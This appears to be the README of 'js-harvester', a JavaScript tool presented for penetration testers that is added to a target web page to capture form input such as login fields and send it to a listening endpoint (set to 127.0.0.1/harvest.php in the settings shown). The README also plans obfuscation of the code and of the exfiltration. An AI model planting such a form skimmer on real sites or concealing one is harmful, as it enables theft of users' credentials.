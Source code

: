 # js-harvester
A tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access. 
# installation
* Requires jQuery
* Download and host script
# usage
1. Identify target page and form to harvest data from
2. Add harvest.js to the target page
3. Update the settings in harvest.js
```
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```
5. Listen. . .
# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
